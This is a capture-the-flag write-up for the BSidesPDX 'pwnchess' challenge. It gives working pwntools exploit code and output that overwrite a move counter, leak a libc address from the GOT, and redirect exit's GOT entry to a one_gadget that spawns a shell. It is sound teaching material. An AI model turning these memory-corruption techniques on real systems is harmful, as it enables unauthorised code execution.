



# PWN 300 - pwnchess - Solution

## Tooling

Much like with rot13, I am going to use pwntools with a very similar skeleton file.  However, notice the additional use of libc.  I hope to better explain why later in the writeup.  Additionally, I have changed it to use `amd64` instead of `i386`.

```python
#!/usr/bin/env python2
from pwn import *

# You might have to change this depending on the architecture of the binary
context.arch = 'amd64'

# Toggle these variables to turn debugging or remote exploitation on/off
REMOTE = False
DEBUG = False

# Update these to match your environment
FNAME = '../distFiles/pwnchess'
HOST = '127.0.0.1'
PORT = '1337'

elf = ELF(FNAME)
if REMOTE:
    libc = ELF('../distFiles/libc-2.27.so')
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def getp():
    if REMOTE:
        p = remote(HOST, PORT)
    elif DEBUG:
        p = process(['gdbserver', 'localhost:1234', FNAME])
    else:
        p = process([FNAME])
    return p

p = getp()
p.interactive()
```

## Basic analysis

It's good to start with collecting basic information about the binary.  The `checksec` command should automatically be added to your path after installing pwntools.

```
$ checksec pwnchess
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

PIE (Position Independent Execution) is disabled, otherwise, all other anti-exploit mitigations are enabled.

Let's just try running the binary.

```
$ ./pwnchess 
Welcome to pwnchess!
The rules are simple:
1) You get 2 moves
2) For each move, you are allowed to read 1 byte or write 1 byte
3) Oh yeah, and the only way to win is to pop a shell!

Here is a stack address to get you started: 0x7fffa516db44

Good luck!

1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 2

```

So the binary is pretty straight forward, we can read and write any arbitrary memory.  However, I can't think of a way to pop a shell with only 2 read/write operations.

## Writing helper functions
Before we try and figure out how to bypass the 2 operation limit or figure out exactly what memory we need to read and write, let's write some helper functions.

```python
def perf_exit(p):
    p.sendline('3')

def perf_write(p, addr, value):
    p.sendline('2')
    p.recvuntil(': ')
    p.sendline(str(addr))
    p.recvuntil(': ')
    p.sendline(str(value))

def perf_read(p, addr):
    p.sendline('1')
    p.recvuntil(': ')
    p.sendline(str(addr))
    p.recvuntil(' : ')
    ret = p.recvline().strip()
    return eval('0x%s' % ret)
```

These helper functions will make working with the service a lot easier.  Both `perf_write` and `perf_read` are setup to take in integers as input, and convert them to strings for consumption by the application.  And `perf_read` will return the byte value as an int.  That way, the rest of our script can focus on building the exploit.

## Bypassing the 2 move limit

Let's start by opening the program in your preferred disassembler (I prefer IDA).



Ok, so `loop` is the most interesting function to look at.  Notice `cs:moves` is a global variable containing the current count of moves remaining.  Once `cs:moves` reaches zero, the loop exits (causing the program to exit as well).

So, how about we just overwrite `cs:moves` with a new value!

Since PIE is disabled, the memory location of `cs:moves` is hardcoded.



Let's make sure we store this value in our script, you can either manually enter in the address, or you can use pwntools to parse the ELF and retrieve it for you.

```python
ADDR_MOVES = elf.symbols['moves'] # == 0x602060
```

Now, writing a new value should be simple using `ADDR_MOVES` and the helper function `perf_write`.  I will go ahead and write the maximum value: `0xff` and test it out to make sure everything works.

```python
ADDR_MOVES = elf.symbols['moves'] # == 0x602060

p = getp()
perf_write(p, ADDR_MOVES, 0xff)
p.interactive()
```

```
$ ./solver.py
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '../distFiles/pwnchess': pid 30426
[*] Switching to interactive mode
2
Enter address in decimal format (e.g. 12345): You entered: 0x602060
Enter byte in decimal format (e.g. 255): You entered: 0xff
Value(0xffffffff) written to 0x602060
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 255
$  
```

Great, we have just unlocked unlimited moves!  Now to proceed with popping a shell.

## Leaking the libc base address

As is implied by the inclusion of `libc-2.27.so`, we are likely going to need to use the `ret2libc` technique to get a shell.  The problem is, we don't currently know where libc is loaded in memory.  But, if we can leak the address of any libc function, we can use the provided `libc-2.27.so` library to calculate offsets from the known function.  Once we have the base address for where libc is loaded in memory, we can calculate the address of any other function or string in libc.

A common trick to getting the address of a libc function is to leak an address from the GOT (Global Offset Table).  But be sure to only attempt to leak the address of a function that has already been called (as these addresses are updated dynamically at run-time).  I have chosen to leak `puts`.

Again, the GOT is hardcoded because PIE has been disabled for this binary:



You can either manually enter this address into your script or you can use pwntools to grab it for you.

```python
GOT_PLT_PUTS = elf.got['puts'] # == 0x602018
```

Now lets leak the `puts` address, notice we call `perf_read` 8 times because it only is able to read a byte at a time.
```python
# leak puts address
puts_leak = 0
for i in range(8):
    puts_leak += perf_read(p, GOT_PLT_PUTS+i) << (8*i)
log.info('Leaked puts address: 0x%x' % puts_leak)
```

Then we can simply calculate the base address of libc with the following code:
```python
# Calculate base address
libc.address = puts_leak - libc.symbols['puts']
log.info('Libc base address: 0x%x' % libc.address)
```

## Popping a shell

There are at least 2 different ways to pop a shell that I'm aware of:
- Use the stack address to build a ROP chain that can perform a ret2libc
- Use (one_gadget)[https://github.com/david942j/one_gadget] to overwrite the call to `exit`.

I have included an example of both implementations, but for the purpose of this writeup I will be showing how to use one_gadget.

Before we begin, let's get one_gadget working locally first.

```
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Your offsets and constraints are likely to be different (unless you just happen to be using the same version of libc as I am).

The key to using one_gadget, is finding a gadget that we meet the constraints for.  We could use a debugger to determine which constraints will be met, but since there's only a few, let's just try each of them until they work.

I'll also run one_gadget on the provided binary, if there are any overlapping constraints, that would be ideal.

```
$ one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Oh how lucky, we have the same constraint: `[rsp+0x70] == NULL` in both versions of libc (again, you actually may not get this lucky depending on your version of libc).

Let's go ahead and try that gadget though, if the constraints are met locally, they will also be met remotely.

```python
# Offset of one_gadget for my local version of libc
# You will need to change this to match your version of libc!!!
one_gadget_offset = 0x106ef8
# calculate from libc base address to get runtime address
one_gadget_addr = libc.address + one_gadget_offset
# write the one_gadget address to GOT entry for 'exit'
for i in range(8):
    b = (one_gadget_addr >> (8*i)) & 0xff
    perf_write(p, GOT_PLT_EXIT+i, b)
# invoke exit (which now points to our one_gadget address)
perf_exit(p)
```

And now to test if it works:

```
$ ./solver.py 
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '../distFiles/pwnchess': pid 31903
[*] Leaked puts address: 0x7fa8bfd11cc0
[*] Libc base address: 0x7fa8bfc8e000
[*] Switching to interactive mode
244
Enter address in decimal format (e.g. 12345): You entered: 0x60204b
Enter byte in decimal format (e.g. 255): You entered: 0xbf
Value(0xffffffbf) written to 0x60204b
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 243
Enter address in decimal format (e.g. 12345): You entered: 0x60204c
Enter byte in decimal format (e.g. 255): You entered: 0xa8
Value(0xffffffa8) written to 0x60204c
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 242
Enter address in decimal format (e.g. 12345): You entered: 0x60204d
Enter byte in decimal format (e.g. 255): You entered: 0x7f
Value(0x7f) written to 0x60204d
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 241
Enter address in decimal format (e.g. 12345): You entered: 0x60204e
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204e
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 240
Enter address in decimal format (e.g. 12345): You entered: 0x60204f
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204f
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 239
$ id
uid=1000(aaron) gid=1000(aaron)
```

Success!

Referencing the output from one_gadget on the provided libc:

```
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We just need to slightly adjust our exploit to use a different offset when running remotely:

```python
if REMOTE:
    # Offset of one_gadget for the remote version of libc
    one_gadget_offset = 0x10a38c
else:
    # Offset of one_gadget for my local version of libc
    # You will need to change this to match your version of libc!!!
    one_gadget_offset = 0x106ef8
# calculate from libc base address to get runtime address
one_gadget_addr = libc.address + one_gadget_offset
```

And finally, run it with `REMOTE = True`:

```
$ ./solver_one_gadget.py 
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/pwnchess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/aaron/CTF-2019/pwn/300-pwnchess/distFiles/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 31337: Done
[*] Leaked puts address: 0x7f1c1a3439c0
[*] Libc base address: 0x7f1c1a2c3000
[*] Switching to interactive mode
244
Enter address in decimal format (e.g. 12345): You entered: 0x60204b
Enter byte in decimal format (e.g. 255): You entered: 0x1a
Value(0x1a) written to 0x60204b
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 243
Enter address in decimal format (e.g. 12345): You entered: 0x60204c
Enter byte in decimal format (e.g. 255): You entered: 0x1c
Value(0x1c) written to 0x60204c
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 242
Enter address in decimal format (e.g. 12345): You entered: 0x60204d
Enter byte in decimal format (e.g. 255): You entered: 0x7f
Value(0x7f) written to 0x60204d
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 241
Enter address in decimal format (e.g. 12345): You entered: 0x60204e
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204e
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 240
Enter address in decimal format (e.g. 12345): You entered: 0x60204f
Enter byte in decimal format (e.g. 255): You entered: 0x0
Value(0x00) written to 0x60204f
1) Perform a read
2) Perform a write
3) Exit
Remaining moves: 239
$ id
uid=1000(pwnchess) gid=1000(pwnchess) groups=1000(pwnchess)
$ cat /app/flag.txt
BSidesPDX{th3_0nlYY_w1nn1ng___m0v_1s__2_g3t_y0urs3lf_m0re_m0v3s_aka_ch34t_2_w1n!!}
```
